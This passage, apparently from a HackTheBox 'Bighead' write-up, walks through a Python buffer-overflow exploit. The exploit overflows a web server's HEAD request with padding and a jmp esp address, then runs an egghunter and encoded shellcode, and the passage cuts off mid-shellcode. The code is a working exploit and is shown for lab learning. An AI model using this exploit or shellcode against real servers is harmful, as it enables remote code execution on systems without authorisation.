 #### I did `settimeout(None)` as the server takes a lot of time to respond to this request (Because we will change the code flow so the server won't reply) and we don't want the stream to be closed before our egghunter is successfully executed.
#### `s.send("HEAD /" + ("A"*72) + "f0125062" + egghunter + " HTTP/1.1\r\n")` This line sends 72 A's then `f0125062` (jmp esp (new EIP)) then the egghunter. 
`send_egghunter` :
```
def send_egghunter(host,port,egghunter):
	print "\033[32m [*] Sending EggHunter"
	s = socket.socket(socket.AF_INET,socket.SOCK_STREAM,0)
	s.connect((host,port))
	s.settimeout(None)
	s.send("HEAD /" + ("A"*72) + "f0125062" + egghunter + " HTTP/1.1\r\n")
	s.send("Host: dev.bighead.htb\r\n")
	s.send("\r\n")
	print '\033[34m' + re.sub(r"\s"," ",s.recv(12))
	s.close()
	print "\033[32m [*] Done"
```
![](/images/hackthebox/bighead/81.png)
#### The exploit is ready, we just need to call the functions :
```
send_shellcode(N,host,port,egg,shellcode)
send_egghunter(host,port,egghunter)
```
![](/images/hackthebox/bighead/82.png)
#### Final Exploit :
```
#!/usr/bin/python
import socket
import binascii
import re

host = '10.10.10.112'
port = 80
egg = 'R1ck'

N = 0

buf =  ""
buf += "d9c7d97424f45a2bc9bb9f0948"
buf += "3bb15283c204315a1303c51aaa"
buf += "ce05f4a831f505cdb81034cddf"
buf += "5167fd94378476f8a31ffad5c4"
buf += "a8b103eb29e9706aaaf0a44c93"
buf += "3ab98dd42730df8d2ce7cfba79"
buf += "3464f06c3c99418e6d0cd9c9ad"
```